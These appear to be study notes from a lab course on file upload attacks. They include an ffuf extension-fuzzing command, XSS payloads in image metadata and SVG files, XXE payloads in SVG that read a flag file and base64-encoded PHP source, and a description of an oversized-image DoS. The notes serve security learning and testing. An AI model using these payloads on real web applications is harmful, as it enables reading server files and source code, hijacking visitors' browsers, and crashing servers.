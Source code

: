 fuzzing allowed file extensions is an important exercise for any file upload attack. It enables us to explore what attacks may be achievable on the web server.


fuzzing allowed file extensions is an important exercise for any file upload attack. It enables us to explore what attacks may be achievable on the web server.
```bash
ffuf -u http://TARGET/upload.php -X POST -F "uploadFile=@test.FUZZ" -w /usr/share/seclists/Fuzzing/extensions_common.txt
```


## XSS


example1 :

web application allows us to upload `HTML` files
HTML files won't allow us to execute code (e.g., PHP)
possible to implement JavaScript code within them to carry an XSS
CSRF attack on whoever visits the uploaded HTML page.



target sees a link from a website they trust > trick them into visiting the link while >website is vulnerable to uploading HTML documents

example2 :
web applications that display an image's metadata after its upload

XSS payload in one of the Metadata parameters that accept raw text

like the `Comment` or `Artist` parameters
```bash
AhmaDb0x@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
AhmaDb0x@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

>When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack


>change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image

>which case the XSS payload would be triggered even if the metadata wasn't directly displayed


## Finally,

 XSS attacks can also be carried with `SVG` images
`Scalable Vector Graphics (SVG)` == XML-based

primary purpose of XML is the exchange and transfer of data. It encodes data in a format readable by both machines and humans.

and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to `HTB.svg`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE

With SVG images, we can also include malicious XML data to leak the source code of the web application

and other internal documents within the server. [XML external entity injection]


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>  
<svg>&xxe;</svg>
```


>Once the above SVG image is uploaded and viewed, the XML document would get processed,

upload of `XML` documents, then the same payload can carry the same attack when the XML data is displayed on the web application.


For File Upload exploitation, it may allow us to `locate the upload directory, identify allowed extensions, or find the file naming scheme`, which may become handy for further exploitation.

Code: xml
XXE to read source code in PHP web applications, we can use the following payload in our SVG image
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg> 
```

Once the SVG image is displayed, we should get the base64 encoded content of `index.php`, which we can decode to read the source code.


>Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like `PDF`, `Word Documents`, `PowerPoint Documents`,

## DoS
We can create any `JPG` image file with any image size (e.g. `500x500`), and then manually modify its compression data to say it has a size of (`0xffff x 0xffff`), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

